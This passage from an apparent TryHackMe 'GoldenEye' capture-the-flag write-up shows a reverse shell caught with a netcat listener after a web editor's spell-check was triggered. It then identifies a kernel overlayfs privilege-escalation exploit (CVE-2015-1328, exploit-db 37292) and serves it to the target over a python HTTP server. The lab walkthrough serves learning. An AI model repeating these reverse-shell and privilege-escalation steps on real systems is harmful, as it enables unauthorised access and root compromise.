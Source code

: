 
I started a netcat listener on my local machine and then on the webpage went to add a post, once the editor loaded and clicked spell check and got a shell!

![spellcheck](/assets/images/goldeneye/spellcheck.png)

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [<<REDACTED>>] from (UNKNOWN) [10.10.50.94] 55215
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

### Priv Esc	

The machine is running linux 3.13.0-32, googeling linux 3.13.0-32 priv esc I found a linux kernal exploit. Details of the exploit can be found [here](https://www.cvedetails.com/cve/cve-2015-1328).

> The overlayfs implementation in the linux (aka Linux kernel) package before 3.19.0-21.21 in Ubuntu through 15.04 does not properly check permissions for file creation in the upper filesystem directory, which allows local users to obtain root access by leveraging a configuration in which overlayfs is permitted in an arbitrary mount namespace. 

I downloaded the [exploit code](https://www.exploit-db.com/exploits/37292) from exploit-db and copied it to machine using python.

##### My machine
```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/GoldenEye]
└──╼ $mv ~/Downloads/37292.c .
┌─[daz@parrot]─[~/Documents/TryHackMe/GoldenEye]
└──╼ $ls
37292.c  for-007.jpg  nmap  s3cret.txt
┌─[daz@parrot]─[~/Documents/TryHackMe/GoldenEye]
└──╼ $mv 37292.c exploit.c
┌─[✗]─[daz@parrot]─[~/Documents/TryHackMe/GoldenEye]
└──╼ $sudo python3 -m http.server 80
[sudo] password for daz: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
